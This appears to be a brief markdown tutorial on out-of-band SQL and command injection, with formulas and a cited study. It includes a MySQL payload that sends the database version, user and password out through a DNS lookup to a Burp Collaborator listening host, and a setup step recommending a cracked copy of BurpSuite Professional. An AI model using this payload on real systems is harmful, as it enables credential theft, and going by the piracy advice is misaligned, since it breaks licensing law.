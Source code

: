 <h1 align="Center">Out-of-band Injection Theory</h1>

### OOB injection is an exploitation to exfiltrate data and information through different outbond channel

## Traditional Injection Technique (In-Band)


![Web Archi](../photo/inband.png)

#### eg SQL Databse Query to make DNS request

```
select
load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',
(SELECT+password),'.','n5tgzhrf768l71uaacqu0hqlocu2ir.burpcollabo
rator.net\\vfw'))
```


<br>

## OOB Injection



![Web Archi](../photo/oob.png)

# How to get listening server
	1. Install BurpSuite Professional (Crack)
	2. Use Bure Collaborator Client 
	4. DNS request to listening Server
	3. Collect captured info


## Formuala

### For Command Injection

`𝑂𝑂𝐵 Commandinjection = 𝐹𝑖. (system 𝑐𝑜𝑚𝑚𝑎𝑛𝑑𝑠 + 𝐹𝑄𝐷𝑁)`

where,

<pre>
Fi      = function that initiates outbound request<br>
FQDN  = domain name of the listening server (Burpcollaborator domain name)
</pre>

### For Sql Injection

`𝑂𝑂𝐵 𝑆𝑄𝐿𝑖 = 𝐹𝑖. (𝑆𝑄𝐿 𝑐𝑜𝑚𝑚𝑎𝑛𝑑𝑠 + 𝐹𝑄𝐷𝑁)`


<pre>
Fi  = function that initiates outbound request<br>
FQDN  = domain name of the listening server (Burpcollaborator domain name)
</pre>


#### References
A Study of Out-of-Band Structured Query Language Injection by Lee Chun How  (doi: 10.5281/zenodo.3556347)
